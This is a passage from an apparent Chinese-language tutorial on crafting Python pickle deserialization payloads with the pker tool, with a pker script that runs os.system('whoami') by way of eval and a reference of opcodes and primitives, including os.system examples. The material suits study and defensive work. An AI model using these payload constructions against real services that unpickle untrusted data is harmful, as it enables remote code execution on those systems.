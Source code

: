 不过这样看起来还是有一些费劲的,学长@iv4n写的[pker](https://github.com/eddieivan01/pker)利用遍历AST结点自动化构建解决了这个问题

上述例子只需要构造：

```pker
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = getattr(dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = globals()
__builtins__ = dict_get(builtins, '__builtins__')
eval = getattr(__builtins__, 'eval')
eval('__import__("os").system("whoami")')
return
```

其中

```
GLOBAL
对应opcode：b'c'
获取module下的一个全局对象（没有import的也可以，比如下面的os）：
GLOBAL('os', 'system')
输入：module,instance(callable、module都是instance)  

INST
对应opcode：b'i'
建立并入栈一个对象（可以执行一个函数）：
INST('os', 'system', 'ls')  
输入：module,callable,para 

OBJ
对应opcode：b'o'
建立并入栈一个对象（传入的第一个参数为callable，可以执行一个函数））：
OBJ(GLOBAL('os', 'system'), 'ls') 
输入：callable,para

xxx(xx,...)
对应opcode：b'R'
使用参数xx调用函数xxx（先将函数入栈，再将参数入栈并调用）

li[0]=321
或
globals_dic['local_var']='hello'
对应opcode：b's'
更新列表或字典的某项的值

xx.attr=123
对应opcode：b'b'
对xx对象进行属性设置

return
对应opcode：b'0'
出栈（作为pickle.loads函数的返回值）：
```

即可生成opcode。

参考：

- [pickle反序列化初探](https://xz.aliyun.com/t/7436)
- [通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012#toc-0)
- [pker](https://github.com/eddieivan01/pker)

